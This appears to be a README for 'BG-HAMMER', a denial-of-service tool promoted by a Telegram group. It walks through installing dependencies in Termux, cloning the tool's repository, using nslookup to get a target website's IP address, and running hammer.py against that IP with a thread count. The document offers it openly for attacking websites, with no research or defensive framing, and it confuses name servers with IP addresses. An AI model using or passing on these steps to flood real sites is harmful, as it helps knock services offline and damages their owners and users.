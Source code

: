 BG- HAMMER - DDOS V1.0 EXTREME ( Termux Recommended)
check out Team BG :- https://t.me/teambg99
project by @devilvinay_yt 

$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/smartboyvinay/bgddos/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python hammer.py -s [ip Address] -t 135
example:
$ python hammer.py -s 123.45.67.89 -t 135

❤We are TEAM BG
